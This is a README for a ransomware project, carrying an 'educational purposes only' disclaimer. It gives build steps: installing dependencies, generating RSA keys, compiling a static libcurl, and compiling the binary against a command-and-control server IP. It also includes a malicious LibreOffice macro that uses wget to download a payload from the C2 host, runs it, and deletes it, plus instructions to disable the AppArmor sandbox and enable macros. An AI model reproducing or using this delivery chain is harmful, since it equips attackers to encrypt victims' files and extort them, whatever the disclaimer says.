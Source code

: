 # Ransomware
> [!WARNING]
> EDUCATIONAL PURPOSES ONLY
>
>This project is intended solely for educational and research purposes in the context of cybersecurity training. It is designed to study and understand ransomware mechanics in a legal and controlled environment.
>
>DO NOT use this code for malicious purposes. Deploying ransomware on any system without explicit permission is illegal and can result in severe legal consequences.
>
>By using this project, you agree to abide by all applicable laws and take full responsibility for your actions. The author assumes no liability for any misuse.

## Requirement

```bash
sudo apt update
sudo apt install wget make gcc libssl-dev xz-utils build-essential pkg-confi
pip instal -r requirements.txt
```
The execution of macros must be authorized, and the AppArmor sandbox for LibreOffice must be disabled.


## Generating RSA Keys
Before anything else, we need to generate our RSA key pair.

Run the following commands to create your private and public keys:
```bash
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048  
openssl rsa -pubout -in private.pem -out public.pem  
```

## Make the binary static
We need to build the libcurl library. Follow these steps:
```bash
wget https://curl.se/download/curl-8.12.1.tar.xz
tar xvf curl-8.12.1.tar.xz
cd  curl-8.12.1
CC=musl-gcc ./configure --disable-shared --enable-static --prefix=/tmp/curl --disable-ldap --disable-sspi --without-librtmp --disable-ftp --disable-file --disable-dict --disable-telnet --disable-tftp --disable-rtsp --disable-pop3 --disable-imap --disable-smtp --disable-gopher --disable-smb --without-libidn --without-ssl --without-nghttp2 --disable-mqtt --without-zlib --without-brotli --without-zstd --without-libpsl --without-libidn2 --disable-docs
make && make install
```
For simplicity, this build process is also defined in the Makefile.

## Malicious file
To deploy the ransomware, we will use a malicious file.odt that contains a malicious macro:
```vba
Sub Main
	Shell("bash -c 'wget http://{C2_SERVER_IP}:8000/ -O /tmp/not_a_malware && chmod +x /tmp/not_a_malware && /tmp/not_a_malware && rm /tmp/not_a_malware'")
End Sub
```
Check this link for instructions on how to add it: [LibreOffice Macro Exploit](https://exploit-notes.hdks.org/exploit/malware/libreoffice-macros/).

## Compiling
Simply run the following command to compile the project:
```bash
make SERVER_IP="{C2_SERVER_IP}"
```